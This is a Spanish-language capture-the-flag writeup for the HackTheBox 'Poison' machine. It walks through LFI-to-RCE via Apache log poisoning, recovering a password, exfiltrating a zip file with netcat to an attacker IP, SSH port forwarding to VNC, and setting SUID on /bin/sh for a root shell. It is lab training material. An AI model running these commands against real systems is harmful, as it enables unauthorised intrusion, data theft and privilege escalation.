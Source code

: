 ```yaml
---
title: HackTheBox - Poison
author: cotes
date: 2023-09-19 17:51:00 +0800
categories: [Writeup, HackTheBox, Medium]
tags: [Linux, 'LFI to RCE', 'Log Poisoning', 'Local Port Forwarding', ]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Medium/Poison/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Poison Machine Logo
---
```


Máquina Linux de nivel **Medium** de HackThBox.

Técnicas usadas: **LFI to RCE, Log Poisoning, Local Port Forwarding**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Medium/Poison/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Medium/Poison/02-versions.png)

c. La página web nos dice que podemos ejecutar scripts **.php**, pero, el campo al no estar sanitizado correctamente, nos permite acceder incluir cualquier fichero

![](/assets/images/HTB/Medium/Poison/03-passwd.png)

* Lograremos una ejecución de comandos al leer el fichero de logs

![](/assets/images/HTB/Medium/Poison/04-log.png)

> La información que podemos manipular es el 'User-Agent', aquí es donde colocaremos nuestro código php para ser interpretado mediante el LFI
{: .prompt-info }

![](/assets/images/HTB/Medium/Poison/05-headers.png)

* En este caso la ruta para acceder a los logs en FreeBSD es `/var/log/httpd-access.log`, y ahora, ya podremos ejecutar comandos visitando la url: `http://<IP Poison>/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=[Comando]`

    ![](/assets/images/HTB/Medium/Poison/06-ls.png)

    * El fichero que nos llama la atención es **pwdbackup.txt**. El contenido de este está encodeado en base64 13 veces.

d. Obtendremos una contraseña 'Charix!2#4%6&8(0', la cual nos servirá para conectarnos en ssh con el usuario charix (Lo vimos al obtener el /etc/passwd)

### Escalada de Privilegios 💹

a. Al investigar en la máquina veremos dos cosas interesantes:

* Tenemos un fichero 'secret.zip' el cual nos transferimos a nuestra máquina

    ```bash
    ❯ nc -lvnp 443 > secret.zip
    -----------------------------------------------------
    charix@Poison:~ % nc -N 10.10.14.18 443 < secret.zip
    ```

* Tenemos 2 puertos abiertos internamente '5901 y 5801'

```bash
charix@Poison:~ % netstat -na -p tcp
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
<SNIP>
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

* Al consultar sobre estos puertos, en [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc) nos mencionan que son del servicio VNC

b. Para auditar el servicio **VNC** nos piden una credencial alojada en un fichero, por lo que, descomprimimos el .zip usando la contraseña del usuario charix

```bash
❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
extracting: secret
```

* Además, como el puerto 5901 no es accesible desde fuera, haremos Local Port Forwarding con SSH

    ```bash
    ❯ ssh charix@10.10.10.84 -L 5901:127.0.0.1:5901
    ------------------------------------------------
    ❯ lsof -i:5901
    ssh     54634 root    5u  IPv4 153287      0t0  TCP localhost:5901 (LISTEN)
    ```

c. Ahora, ya podemos acceder a este servicio. Al ser **root** le damos permiso SUID a la /bin/sh

```bash
❯ vncviewer -passwd secret 127.0.0.1::5901
```

![](/assets/images/HTB/Medium/Poison/07-root.png)

* Ahora desde ssh podemos acceder a una `/bin/sh` como root

    ```bash
    charix@Poison:~ % sh -p
    # whoami
    root
    ```